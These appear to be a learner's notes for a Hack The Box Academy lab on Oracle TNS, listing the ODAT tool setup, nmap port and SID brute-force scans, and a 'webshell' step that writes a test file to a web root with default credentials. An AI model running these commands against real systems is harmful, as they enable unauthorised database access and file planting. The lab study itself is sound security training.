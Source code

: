 https://academy.hackthebox.com/module/112/section/2117
# Why am I here:
### Oracle Transparent Network Substrate (TNS) is a protocol that is used to help facilitate communications between Oracle databases and applications.
#### Oracle-Tools-setup.sh

```bash
#!/bin/bash

sudo apt-get install libaio1 python3-dev alien -y
git clone https://github.com/quentinhardy/odat.git
cd odat/
git submodule init
git submodule update
wget https://download.oracle.com/otn_software/linux/instantclient/2112000/instantclient-basic-linux.x64-21.12.0.0.0dbru.zip
unzip instantclient-basic-linux.x64-21.12.0.0.0dbru.zip
wget https://download.oracle.com/otn_software/linux/instantclient/2112000/instantclient-sqlplus-linux.x64-21.12.0.0.0dbru.zip
unzip instantclient-sqlplus-linux.x64-21.12.0.0.0dbru.zip
export LD_LIBRARY_PATH=instantclient_21_12:$LD_LIBRARY_PATH
export PATH=$LD_LIBRARY_PATH:$PATH
pip3 install cx_Oracle
sudo apt-get install python3-scapy -y
sudo pip3 install colorlog termcolor passlib python-libnmap
sudo apt-get install build-essential libgmp-dev -y
pip3 install pycryptodome
```
### Footprinting open port

```bash
sudo nmap -p1521 -sV <IP> --open
```
### SID bruteforce with nmap 

```bash
sudo nmap -p1521 -sV <IP> --open --script oracle-sid-brute
```
### ODAT can be used to perform enumeration 

```bash
 ./odat.py all -s <IP> -h
```
### Uploading a webshell

|**OS**|**Path**|
|---|---|
|Linux|`/var/www/html`|
|Windows|`C:\inetpub\wwwroot`|
```bash
echo "Oracle File Upload Test" > testing.txt
./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt
```

```bash
curl -X GET http://<IP>/testing.txt
```

## Checkout [[🟡 1. SQLplus Commands✔️]] to learn about interacting with the service
## Checkout [[🟡 2. Troubleshooting✔️]] if SQLPlus is not working.
# Tags

> #Recon #Information-gathering #Service-Enum #Oracle-TNS